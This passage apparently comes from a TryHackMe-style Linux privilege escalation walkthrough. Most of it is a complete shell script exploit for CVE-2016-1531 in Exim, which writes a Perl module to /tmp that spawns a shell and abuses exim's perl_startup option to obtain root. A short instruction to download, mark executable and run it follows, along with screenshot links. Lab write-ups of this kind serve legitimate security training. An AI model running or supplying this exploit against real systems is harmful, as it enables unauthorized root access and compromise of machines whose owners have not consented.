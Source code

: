 ```bash
#!/bin/sh
# CVE-2016-1531 exim <= 4.84-3 local root exploit
# ===============================================
# you can write files as root or force a perl module to
# load by manipulating the perl environment and running
# exim with the "perl_startup" arguement -ps. 
#
# e.g.
# [fantastic@localhost tmp]$ ./cve-2016-1531.sh 
# [ CVE-2016-1531 local root exploit
# sh-4.3# id
# uid=0(root) gid=1000(fantastic) groups=1000(fantastic)
# 
# -- Hacker Fantastic 
echo [ CVE-2016-1531 local root exploit
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("/bin/sh");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps
```
We can download the above exploit into the `/tmp` directory, mark it as executable, and execute it to get root privileges.

![SUID Exploit](../../assets/images/thm/linuxprivesc/46-suid_exploit.png)

![SUID Exploit PrivEsc](../../assets/images/thm/linuxprivesc/47-suid_exploit_privesc.png)
